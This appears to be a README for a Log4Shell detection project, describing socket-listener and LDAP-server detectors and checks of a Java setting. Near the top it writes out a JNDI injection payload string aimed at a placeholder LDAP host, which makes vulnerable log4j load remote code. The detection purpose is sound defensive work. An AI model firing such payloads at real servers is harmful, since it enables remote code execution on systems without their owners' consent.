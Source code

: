 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency
- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: not always the case if using `javaNamingReference`
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: not always the case
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- to test if its actually vulnerable, try to use harmless payloads if its running then its vulnerable.

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
